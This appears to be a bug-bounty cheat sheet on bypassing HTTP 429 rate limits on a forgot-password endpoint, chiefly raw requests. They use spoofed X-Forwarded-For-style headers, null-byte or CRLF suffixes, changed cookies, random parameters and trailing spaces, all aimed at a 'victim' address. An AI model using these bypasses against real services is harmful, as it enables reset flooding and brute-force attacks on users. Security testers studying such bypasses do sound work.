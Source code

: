 # 429 Rate limit Bypass 
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
[...]

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
[...]

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com "}
```
